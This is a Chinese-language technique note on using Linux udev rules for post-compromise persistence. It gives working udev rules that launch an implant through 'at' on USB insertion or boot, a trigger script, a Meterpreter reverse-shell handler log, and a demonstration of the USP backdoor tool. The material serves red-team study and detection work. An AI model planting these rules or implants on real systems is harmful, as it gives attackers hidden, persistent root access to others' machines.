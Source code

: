 ```yaml
---
layout: post
title: Linux 持久化 - udev
description: Leveraging Linux udev for persistence
date: '2024-06-07 08:29:39'
tags: ["persistence", "linux"]
---
```


# Linux 持久化 - udev

___

技术来自 <https://ch4ik0.github.io/en/posts/leveraging-Linux-udev-for-persistence/> 本文主要是记录 + 翻译。

## 简介

`udev` 是 Linux 内核的设备管理器，允许用户管理 `/dev/` 目录中的设备并根据硬件事件创建操作。常见的用例包括重命名网络接口或修改特定硬盘插入时的 `udev` 。`udev` 的功能之一是基于硬件事件（例如检测）执行脚本，这使其可被用作持久化。

### 什么是`udev`

[Arch Wiki](https://wiki.archlinux.org/title/Udev):
> `udev` is a userspace system that enables the operating system administrator to register userspace handlers for events. The events received by `udev`’s daemon are mainly generated by the (Linux) kernel in response to physical events relating to peripheral devices. As such, `udev`’s main purpose is to act upon peripheral detection and hot-plugging, including actions that return control to the kernel, e.g., loading kernel modules or device firmware. Another component of this detection is adjusting the permissions of the device to be accessible to non-root users and groups. `udev` is part of systemd and thus installed by default (`systemd-udevd.service`)

概括如下：

- 它允许注册对物理事件响应执行的动作，例如连接或断开连接
- 它是默认安装的，并作为系统服务启用。
- 它在超级用户 `root` 的上下文中运行。

### `udev`规则

`udev` 规则定义事件和要执行的操作之间的关系。他们定义事件处理程序。每个规则都位于一个规则文件中，文件扩展名为 `.rules` 。

#### 保存位置

管理员创建的规则位于 `/etc/udev/rules.d/` ，系统提供的或动态生成的分别位于 `/usr/lib/udev/rules.d/` 和 `/run/udev/rules.d/` 。

#### 处理和执行逻辑

规则被集中排序和处理，不考虑源目录。如果两个或多个规则具有相同的名称，则仅执行优先级最高的规则。优先级是根据规则文件的源目录（字母序）来衡量的： `/etc/` > `/run/` > `/usr/` 。

#### 语法和示例

每个规则都由一系列以逗号分隔的键值对构成。此外，一条规则必须至少包含一个匹配键和一个赋值键：

- 规则的第一部分由匹配键组成。它们允许您设置操作（例如，插入或拔出）或设备类型（例如，如果是 USB，则仅属于特定设备的特定属性，例如 ID 等）
- 第二部分是赋值键。它规定了如果先前的匹配键已满则要完成的操作：更改设备名称或其权限、创建符号链接、运行脚本等。
一个典型的 usb 连接规则如下：

```bash
$ cat /etc/udev/rules.d/test.rules
KERNEL=="sdb[0-9]", SUBSYSTEMS=="usb", ENV{ID_SERIAL_SHORT}=="E0D55EA57414F5B1289F03D5", SYMLINK+="super_usb"
```

可以将 subsystems 指向上层设备，这样即使在系统启动时也会触发规则。比如指向 `usb` 或者 `PCI` 子系统：

```bash
$ cat /etc/udev/rules.d/test.rules
SUBSYSTEMS=="usb", RUN+="/bin/sh -c 'touch /home/test/hi.txt'"
```

## 滥用 `udev` 规则来建立持久化
>
> 假设已经入侵机器并拥有`root`权限

### `udev`限制

- **只能用于运行时间非常短的前台任务**。
- 由于**systemd-udevd.service 上强制执行的默认沙箱，**在 udev 规则内**不允许运行访问网络或挂载/卸载文件系统的程序**。
- **不允许启动守护进程或其他长时间运行的进程；分叉的进程，无论是否分离，都将在事件处理完成后被无条件终止**。

### 绕过`udev`限制

通过规则创建一个新的独立且分离的进程。

- 查询`GTFOBin`使用[`at`](https://gtfobins.github.io/gtfobins/at/)来执行。 `at`允许安排将来命令的执行。查看进程树，它不会附加到`udev` 进程，因此不会受到限制。
- 进程注入。在另一个进程中注入植入 shellcode

#### 使用`at`绕过限制

`at` 是来自官方存储库的二进制文件，并且默认安装在某些发行版中。
生成调用 `at` 的规则 ( `/etc/udev/rules.d/ttp.rules` )，该规则在被调用时立刻执行：

```bash
SUBSYSTEMS=="usb", RUN+="/usr/bin/at -M -f /home/kali/trigger.sh now"
```

`at`指向的脚本 `/opt/scripts/trigger.sh`

```bash
#!/bin/bash

# This workaround ensures that the execution is done only once.
# Not very fancy, but quick.

FILE=/home/kali/file_udev$(($(date "+%Y%m%d%H")))
if [ ! -f $FILE ]; then
        touch $FILE
        /home/kali/implant
fi
```

插入 USB 或者重启系统，将会收到连接。

```bash
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.211.55.2:4444

                                                                                                                                                                                    [*] Sending stage (1017704 bytes) to 10.211.55.14
[*] Sending stage (1017704 bytes) to 10.211.55.14
[*] Sending stage (1017704 bytes) to 10.211.55.14
[*] Meterpreter session 1 opened (10.211.55.2:4444 -> 10.211.55.14:52043) at 2024-08-26 23:26:31 -0400
```

![[Pasted image 20240827153928.png]]

## 利用工具 USP
>
> <https://github.com/grahamhelton/USP>

部署持久化，重启时执行：

```bash
sudo ./usp -p /home/kali/trigger.sh -random
```

查看部署的后门：

```bash
$ cat /etc/udev/rules.d/75-persistence.rules
ACTION=="add", ENV{MAJOR}=="1", ENV{MINOR}=="8", RUN+="/persistence"

$ cat /persistence
#!/bin/bash

# This workaround ensures that the execution is done only once.
# Not very fancy, but quick.

FILE=/home/kali/file_udev$(($(date "+%Y%m%d%H")))
if [ ! -f $FILE ]; then
        touch $FILE
        /home/kali/implant
fi
```
